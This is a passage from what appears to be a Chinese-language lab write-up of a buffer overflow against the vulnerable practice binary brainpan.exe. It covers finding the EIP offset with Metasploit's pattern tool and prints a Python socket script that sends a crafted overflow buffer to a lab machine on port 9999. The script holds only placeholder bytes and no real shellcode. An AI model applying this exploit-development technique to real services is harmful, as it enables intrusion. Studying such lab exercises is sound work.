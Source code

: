 我们可以看到EIP的位置已经被35724134覆盖了

![](../../.gitbook/assets/1564740669_5d440c3d075ac.png)

我们将其推入Metasploit的模式偏移工具，它将为我们提供我们需要发送到缓冲区以控制的字节数`eip`

![](../../.gitbook/assets/1564742025_5d4411892409b.png)



我们发送524个"A"，4个"B"和1000个"C"，看看什么效果

```
import socket,sys

junk = "\x41"*524
eip = "\x42"*4
shellcode = "\x43"*1000

payload = junk+eip+shellcode

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
try:
    s.connect(('192.168.2.14',9999)) # IP of WinXP SP3 machine running brainpan.exe
except:
    print "[-] Connection failed! Noob!"
    sys.exit(0)
 
s.recv(1024)
s.send(payload)
```
